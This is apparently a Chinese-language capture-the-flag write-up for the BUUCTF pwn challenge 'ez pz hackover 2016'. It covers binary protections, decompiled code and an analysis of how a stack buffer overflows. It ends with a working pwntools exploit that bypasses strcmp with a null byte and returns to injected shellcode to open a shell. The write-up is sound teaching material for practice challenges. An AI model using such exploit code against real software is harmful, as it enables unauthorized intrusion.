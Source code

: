 ```yaml
---
author: 
  name: Zephyr
title: ez pz hackover 2016
date: 2022-3-25 17:31:03
permalink: /pages/2e1547494524d19a
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# ez pz hackover 2016

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/ez_pz_hackover_2016/ez_pz_hackover_2016'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(stdout, 0);
  header();
  chall();
  return 0;
}
```

header函数如下

```c
int header()
{
  printf("\n");
  printf("             ___ ____\n");
  printf("      ___ __| _ \\_  /\n");
  printf("     / -_)_ /  _// / \n");
  printf("     \\___/__|_| /___|\n");
  printf("        lemon squeezy\n");
  return printf("\n\n");
}
```

vuln函数如下

```c
void *__cdecl vuln(char src, size_t n)
{
  char dest; // [esp+6h] [ebp-32h]

  return memcpy(&dest, &src, n);
}
```



chall函数如下

```c
int chall()
{
  size_t v0; // eax
  int result; // eax
  char s; // [esp+Ch] [ebp-40Ch]
  _BYTE *v3; // [esp+40Ch] [ebp-Ch]

  printf("Yippie, lets crash: %p\n", &s);
  printf("Whats your name?\n");
  printf("> ");
  fgets(&s, 1023, stdin);
  v0 = strlen(&s);
  v3 = memchr(&s, 10, v0);
  if ( v3 )
    *v3 = 0;
  printf("\nWelcome %s!\n", &s);
  result = strcmp(&s, "crashme");
  if ( !result )
    result = vuln((unsigned int)&s, 0x400u);
  return result;
}
```

## 思路分析

1. 目前信息：
   - 栈上`s`地址已知
   - 若输入`crashme`可进入vuln函数
   - `vuln`函数可溢出
   - 无`system`、`/bin/sh`及后门函数
   - No canary found
   - NX disabled
   - No PIE
   - Has RWX segments
2. 思路：
   - 利用`\x00`绕过`strcmp`为`vuln`函数中的溢出创造条件，另将`shellcode`写入栈上`s`的地址，返回到`shellcode`处获得`shell`

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/ez_pz_hackover_2016/ez_pz_hackover_2016'
# io = remote("node4.buuoj.cn", 26153)
io = process(pwnfile)
io.recvuntil('Yippie, lets crash: ')
stack_s_addr = int(io.recvuntil('\nWhats your name?\n', drop=True), 16)
padding = 0x1a
shellcode = asm(shellcraft.sh())
payload = b'crashme\x00'.ljust(padding, b'a')
# s距离ebp的偏移为0x1a
payload += flat([stack_s_addr-0x1c, shellcode])
# shellcode距离stack_s_addr的偏移为0x1c
io.sendafter('> ', payload)
io.interactive()
```